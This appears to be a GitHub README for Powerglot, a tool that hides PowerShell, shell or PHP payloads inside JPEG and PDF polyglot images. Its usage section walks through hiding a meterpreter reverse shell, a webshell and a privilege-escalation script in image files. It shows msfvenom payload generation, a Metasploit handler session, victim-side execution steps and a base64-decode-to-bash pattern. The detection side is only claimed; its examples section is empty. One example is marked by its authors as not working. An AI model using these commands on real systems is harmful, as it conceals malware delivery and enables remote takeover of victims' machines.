 # Powerglot

Powerglot encodes several kind of scripts using polyglots, for example, offensive powershell scripts. It is not needed a loader to run the payload.

In red-team exercises or offensive tasks, masking of payloads is usually done by using steganography, especially to avoid network level protections, being one of the most common payloads scripts developed in powershell. Recent malware and APTs make use of some of these capabilities: APT32, APT37, Ursnif, Powload, LightNeuron/Turla, Platinum APT, Waterbug/Turla, Lokibot, The dukes (operation Ghost), Titanium, etc.

Powerglot is a multifunctional and multi-platform attack and defense tool based on polyglots. Powerglot allows to mask a script (powershell, shellscripting, php, ...) mainly in a digital image, although other file formats are in progress. Unlike the usual offensive tools or malware, Powerglot does not need any loader to execute the "information hidden", minimizing the noise on the target system.

PowerGlot has a clear utility in offensive tasks but it is also defined as a discovery and blue team tool. To our knowledge, it is the first general and complete open-source tool that allows to search for the presence of masked information with polyglots, information that could be useful to achieve persistence in a system or to hide malware (stego-malware, privilege escalation, lateral movement, reverse shell, etc.)

Features:
- Encode powershell/shell script/php/.. in a polyglot image. It is not necessay a loader to recover/execute the hidden information (payload). PowerGlot works with several formats. Mainly, JPEG format.

- Powerglot is a complete open-source tool to detect (malicious) polyglots, specially the result of some public tools as Truepolyglot or stegoSploit. We works in several formats: JPEG, PNG, GIF, BMP, ZIP, PDF, MP3, etc.

# Installation
```
# git clone https://github.com/mindcrypt/powerglot
# python3 powerglot
```
# Usage & Parameters

Some examples to hide payloads using polyglots with Powerglot
```
# Example 1 - Hiding a powershell/php/shell script in a JPEG image

# python3 powerglot.py -o meterpreter.ps1 cat.jpg cat-hidden1.jpg
# python3 powerglot.py -o webshell.php cat.jpg cat-hidden2.jpg
# python3 powerglot.py -o shell.sh cat.jpg cat-hidden3.jpg
```
```
# Example 2 - Hiding a shell script (linenum.sh) for privilege escalation "hidden" in a JPEG image

# python3 powerglot.py -o linenum.sh cat.jpg cat-linenum.jpg
# file cat-linenum.jpg (It is a valid JPEG file)
# feh cat-lineum.jpg (The image is properly showed in an image viewer)

# We can execute the script in several ways:

a) cat cat-linenum | bash
b) chmod +x cat-linenum.jpeg; ./cat-linenum.jpeg

```
```
# Example 3 - Encoding a powershell script in a JPEG image. For example, a meterpreter

# SERVER: Steps in the attacker  --------------------------> No FUNCIONAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

# Prepare the payload and configure the server to receive a meterpreter connection

#msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.0.2.15 LPORT=4444 -f psh > meterpreter.ps1

[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 123 bytes
Final size of psh file: 1341 bytes

# python3 ../powerglot.py -o meterpreter.ps1 cat.jpeg cat-ps.jpeg
# file cat-ps.jpeg 
cat-ps.jpeg: JPEG image data, JFIF standard 1.01, resolution (DPI), density 328x328, segment length 291, thumbnail 1x1, comment: "cmp3.9.27.0Lq4 0xa362b87a", baseline, precision 8, 1000x563, components 3

# msfconsole
msf5 > use exploit/multi/handler 
msf5 exploit(multi/handler) > set payload linux/
Display all 103 possibilities? (y or n)
msf5 exploit(multi/handler) > set payload linux/x86/meterpreter/reverse_tcp
payload => linux/x86/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set lhost 10.0.2.15                                                                 
lhost => 10.0.2.15                                                                                                
msf5 exploit(multi/handler) > set port 4444
port => 4444                                                                                                      
msf5 exploit(multi/handler) > exploit                                                                             
                                                                                                                  
[*] Started reverse TCP handler on 10.0.2.15:4444     

# LINUX VICTIM
# Download cat-o.jpg
# Execute 
# pwsh cat-o.jpg or cat cat-o.jpg | pwsd
```

```
# Example de polyglot in PDF

# base64 payload.sh (example linenum.sh)

# Create b64.sh
# echo "code in base64 of linenum.sh" | base64 -d | bash

#python3 powerglot -o script.sh file.pdf file-1.pdf


```
Some examples to detect polyglots in our filesystem
```
```

# Future work. Doing
- We are working to support different file formats for encoding information in polyglots. Currently, we support several techniques in JPEG and PDF.
- We are working to incorporate rules for the detection of polyglots in different formats. Currently, the presence of StegoSploit in JPEG files is detected.

# Author & license

This project has been developed by Dr. Alfonso Muñoz and Abraham Pasamar. The code is released under the GNU General Public License v3.


